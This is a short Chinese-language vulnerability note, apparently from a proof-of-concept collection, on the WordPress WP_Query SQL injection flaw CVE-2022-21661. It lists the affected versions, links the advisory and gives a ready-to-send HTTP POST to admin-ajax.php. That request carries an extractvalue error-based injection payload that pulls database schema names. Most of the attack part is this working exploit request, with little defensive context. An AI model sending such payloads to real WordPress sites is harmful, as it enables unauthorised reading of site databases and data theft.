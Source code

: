 # WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考链接：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```

![image-20220623160952210](images/202206231609284.png)

